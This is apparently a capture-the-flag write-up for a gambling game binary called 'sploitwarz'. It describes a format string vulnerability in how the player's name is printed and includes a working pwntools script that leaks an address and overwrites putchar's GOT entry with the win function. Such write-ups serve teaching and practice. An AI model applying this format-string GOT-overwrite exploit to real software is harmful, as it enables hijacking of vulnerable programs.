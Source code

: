 5. Have to keep gambling until I win so as to exploit the format string

_List of vulnerabilities:_    
1. When the player wins a gamble, the program will print the name without formatting which leads to a format string vulnerability

_Steps to exploit:_   
1. First we have to find the address of the player's name which from reversing the binary I found that it will be the in the first format string offset.
2. Then I calculated the address storing putchar using the offsets I found in the binary
3. Finally I overwrite the putchar address with the win function address and the flag will be printed upon the next call of putchar
4. The payload will first be stored in the player's name with the change handle function, then keep on gambling until I win so as to exploit the format string. Do this for each of the two payloads above.
5. I also included commented code which will also trigger the winning lines by changing the player's item quantity and selling them for bitcoin, then change the player's turn to 30. This is not useful for the flag but I'm just doing this for extra stuff. It only works on local but not over the network I don't know why.

_Script/Command used:_    
```python
#!/usr/bin/python

from pwn import *
import sys
import re

win = 0x5655655c
#p = process("../sploitwarz")
#p = gdb.debug("../sploitwarz")
p = remote("127.0.0.1", 7003)

def send(payload):
	p.sendline(payload)

payload = "aaaa.%1$p"
p.sendline(payload)
p.recvlines(48)

p.sendline("g")
p.sendline("0.001")
p.sendline("3")

p.recvlines(10)
reply = p.recvline()
while reply[:5] == "Wrong":
	p.sendline("")
	p.sendline("g")
	p.sendline("0.0001")
	p.sendline("3")
	p.recvlines(43)
	reply = p.recvline()

buffer_addr = re.search('0x(.{8})', reply).group(0)
log.info("Player address at %s" % (buffer_addr))

player = int(buffer_addr, 0) - 0x14
got = player - 0x218
putchar = got + 0x38

p.sendline("")
p.sendline("c")
f = FmtStr(send, offset=9)
f.write(putchar, win)
```